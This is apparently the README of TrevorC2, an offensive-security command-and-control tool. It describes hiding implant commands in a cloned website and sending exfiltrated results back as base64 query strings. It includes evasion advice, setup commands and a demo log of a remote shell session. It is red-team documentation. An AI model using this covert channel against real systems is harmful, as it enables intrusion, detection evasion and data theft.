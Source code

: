 trevorc2
=======

# TrevorC2 - Command and Control via Legitimate Behavior over HTTP

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Note that this is a very early release - heavy randomization and encryption to be added soon.

TrevorC2 is a client/server model for masking command and control through a normally browsable website. Detection becomes much harder as time intervals are different and does not use POST requests for data exfil. 


           ,  .'''''.  ...    ''''',  .'           
            ','     ,.MMMM;.;'      '.             
             ;;    ;MMMMMMMMM;     ;;'             
            :'M:  ;MMMMMMMMMMM;.  :M':             
            : M:  MMMMMMMMMMMMM:  :M  .           
           .' M:  MMMMMMMMMMMMM:  :M. ;           
           ; :M'  :MMMMMMMMMMMM'  'M: :           
           : :M: .;"MMMMMMMMM":;. ,M: :           
           :  ::,MMM;.M":::M.;MMM ::' :           
         ,.;    ;MMMMMM;:MMMMMMMM:    :,.         
         MMM.;.,MMMMMMMM;MMMMMMMM;.,;.MMM         
         M':''':MMMMMMMMM;MMMMMMMM: "': M         
         M.:   ;MMMMMMMMMMMMMMMMMM;   : M         
         :::   MMMMMMMMMMM;MMMMMMMM   ::M         
        ,'';   MMMMMMMMMMMM:MMMMMMM   :'".         
      ,'   :   MMMMMMMMMMMM:MMMMMMM   :   '.       
     '     :  'MMMMMMMMMMMMM:MMMMMM   ;     '     
     ,.....;.. MMMMMMMMMMMMM:MMMMMM ..:....;.     
     :MMMMMMMM MMMMMMMMMMMMM:MMMMMM MMMMMMMM:     
     :MM''':"" MMMMMMMMMMMMM:MMMMMM "": "'MM:     
      MM:   :  MMMMMMMMMMMMM:MMMMMM  ,'  :MM       
      'MM   :  :MMMMMMMMMMMM:MMMMM:  :   ;M:       
       :M;  :  'MMMMMMMMMMMMMMMMMM'  :  ;MM       
       :MM. :   :MMMMMMMMMM;MMMMM:   :  MM:       
        :M: :    MMMMMMMMM'MMMMMM'   : :MM'       
        'MM :    "MMMMMMM:;MMMMM"   ,' ;M"         
         'M  :    ""''':;;;'''""    :  M:         
         ;'  :     "MMMMMMMM;."     :  "".         
       ,;    :      :MMMMMMM:;.     :    '.       
      :'     :    ,MM'''""''':M:    :     ';       
     ;'      :    ;M'         MM.   :       ;.     

There are two components to TrevorC2 - the client and the server. The client can be configured to be used with anything. In this example it's coded in Python but can easily be ported to C#, PowerShell, or whatever you want. Currently the trevorc2_client.py supports Windows, MacOS, and Linux. You can always byte compile the Windows one to get an executable, but preference would be to use Windows without having to drop an executable as a stager.

The way that the server works is by tucking away a parameter thats right before the </body> parameter. This is completely configurable, and it's recommended you configure everything to be unique in order to evade detection. Here is the workflow:

    1. trevor2_server.py - edit the file first, and customize, what website you want to clone, etc. The server will clone a website of your choosing and stand up a server. This server is browsable by anyone and looks like a legitimate website. Contained within the source is parameter that (again is configurable), which contains the instructions for the client. Once a client connects, it searches for that parameter, then uses it to execute commands.
    2. trevor2_client.py - all you need in any configurable option is the ability to call out to a website, parse some basic data, and then execute a command and then put the results in a base64 encoded query string parameter to the site. That's it, not hard. 
    3. trevor2_client.ps1 - powershell implementation of trevor2_client.py, this allows you to use native PowerShell to interact with Trevor2_Server.

## Installation

pip install -r requirements.txt

## Usage

First edit the trevor2_server.py - change the configuration options and site to clone.

python trevor2_server.py

Next, edit the trevor2_client.py or ps1 - change the configuration and system you want it to communicate back to. 

python trevor2_client.py or .\trevor2_client.ps1

## Session Management

TrevorC2 supports the ability to handle multiple shells coming from different hostnames. The way TrevorC2 works is it will identify new hostnames as sessions. You can interact with the sessions once you execute a command. If you have multiple sessions, you can type a command and interact with that session based on the session number stored globally. 

When first starting TrevorC2, you can type help or ? for additional information. Basic command usage is "list" which will list any active shells or none at all, or "interact <session_id>" to interact with the shell you want. 

You can always type back/exit within a shell, it will still remain active and not actually kill the shell.

Example below:

```
root@stronghold:/home/relik/Desktop/git/trevorc2# python trevorc2_server.py 

TrevorC2 - Legitimate Website Covert Channel
Written by: David Kennedy (@HackingDave)
https://www.trustedsec.com
[*] Cloning website: https://www.google.com
[*] Site cloned successfully.
[*] Starting Trevor C2 Server...
[*] Next, enter the command you want the victim to execute.
[*] Client uses random intervals, this may take a few.
[*] Type help for usage. Example commands, list, interact.

trevorc2>help
*** TrevorC2 Help Menu ***


Command Usage:

list - will list all shells available
interact <id> - allow you to select which shells to interact with

trevorc2>list

*** Available TrevorC2 Shells Below ***

No available TrevorC2 shells.

trevorc2>
*** Received connection from 127.0.0.1 and hostname stronghold for TrevorC2.

trevorc2>list

*** Available TrevorC2 Shells Below ***

Format: <session_id> <hostname>:<ipaddress>

1. stronghold:127.0.0.1 (Trevor C2 Established)


trevorc2>interact 1
[*] Dropping into trevorc2 shell...
[*] Use exit or back to select other shells
stronghold:trevorc2>ifconfig
[*] Waiting for command to be executed, be patient, results will be displayed here...
[*] Received response back from client...
=-=-=-=-=-=-=-=-=-=-=
(HOSTNAME: stronghold
CLIENT: 127.0.0.1)
ens33     Link encap:Ethernet  HWaddr 00:0c:29:63:7c:67  
          inet addr:172.16.37.132  Bcast:172.16.37.255  Mask:255.255.255.0
          inet6 addr: fe80::4b6b:fb52:f109:a7af/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1400907 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2588882 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:835091244 (835.0 MB)  TX bytes:2623070556 (2.6 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:453640 errors:0 dropped:0 overruns:0 frame:0
          TX packets:453640 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:211565776 (211.5 MB)  TX bytes:211565776 (211.5 MB)


stronghold:trevorc2>back
trevorc2>exit
[*] Exiting TrevorC2... 
```

## Dockerfile
Uses an alpine-based Dockerfile to deploy trevorC2, handy for quick deployment on cloud providers.  
Example below:

```bash
git clone https://github.com/trustedsec/trevorc2.git
cd trevorc2
# At this point, setting up docker-machine to remotly deploy works great
docker build -t trevorc2 . 
docker run -it -p 80:80 -p 443:443 trevorc2
```

## Variables configuration

It is important to change the variables that are presented in each of the scripts. Especially the SITE_PATH_QUERY and encryption key. I would also recommend looking at the REDIRECT option. Instead of cloning a website, you have another option which will redirect the victim host that may be browsing the site to investigate to the legitimate site. Basically when someone visits the site, it'll just redirect them to the site you want cloned. Change the cloned site from google for example to a different site and turn redirect to ON.

## TODO

#### Add ability for longer than 2048 data output. Query string parameter length limited size length.
#### Add do_POST support for POST exfil on longer data.
#### Add upload/download functionality.
